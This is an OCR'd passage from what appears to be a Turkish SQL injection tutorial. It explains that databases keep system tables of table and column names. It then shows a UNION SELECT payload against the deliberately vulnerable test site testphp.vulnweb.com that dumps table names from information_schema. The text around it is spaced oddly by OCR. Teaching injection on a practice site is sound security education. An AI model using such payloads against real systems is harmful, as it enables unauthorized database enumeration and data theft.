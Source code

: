 ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.068.jpeg)

MSQL Workbench

Burada tüm tablo ve kolon isimleri getirilmektedir. Peki mysql workbench bunu nereden bilmektedir ?

Her ilişkisel veritabanı sisteminde o sistemdeki tablo, kolon isimlerini barındıran bir sistem bilgi tablosu vardır.

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =- 1 ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.069.png)

UNI ON  SELECT  1, 2, 3, 4, 5, 6, t abl e\_name, 8, 9, 10, 11 

FROM i nf or mat i on\_schema. t abl es  WHERE  t abl e\_schema  =  dat abase( )

Artık bu sorgu ile tüm tablo isimlerine ulaşabilmekteyiz.
